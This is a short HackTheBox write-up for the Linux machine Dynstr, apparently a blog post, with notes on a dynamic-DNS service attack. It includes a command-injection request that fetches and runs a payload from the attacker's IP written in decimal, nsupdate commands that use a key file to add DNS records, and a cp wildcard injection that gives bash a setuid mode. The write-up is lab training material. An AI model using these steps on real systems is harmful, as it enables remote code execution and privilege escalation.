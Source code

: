 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/ppYNkvlR9jM/0.jpg
layout: post
media_subpath: /assets/posts/2021-10-16-dynamic-dns-command-injection-dynstr-hackthebox
tags:
- command injection
- dynamic dns
- hackthebox
- linux
- wildcard
title: Dynamic DNS & Command Injection - Dynstr @ HackTheBox
---
```


We are solving Dynstr, a 30-point Linux machine on HackTheBox that involves a Dynamic DNS Service & a Command Injection.

{% youtube ppYNkvlR9jM %}

## Notes

**Command Injection**

```
GET /nic/update?hostname=$(curl+168431223/x|sh).no-ip.htb&myip=10.10.14.119 HTTP/1.1
```

Convert IP to decimal:

```
struct.unpack("!L", socket.inet_aton("10.10.14.119"))[0]
```

**DNS Updates**

```
echo "local 127.0.0.1\nupdate add xct.infra.dyna.htb 30 IN A 10.10.14.119\nsend\n" | /usr/bin/nsupdate -k /etc/bind/infra.key
echo "server 127.0.0.1\nzone 10.in-addr.arpa\nupdate add 119.14.10.10.in-addr.arpa. 30 PTR xct.infra.dyna.htb\nsend\n" | /usr/bin/nsupdate -k /etc/bind/infra.key
```

**Wildcard Injection in "cp"**

```
cp /bin/bash .
chmod 4777 bash
touch -- --preserve=mode
```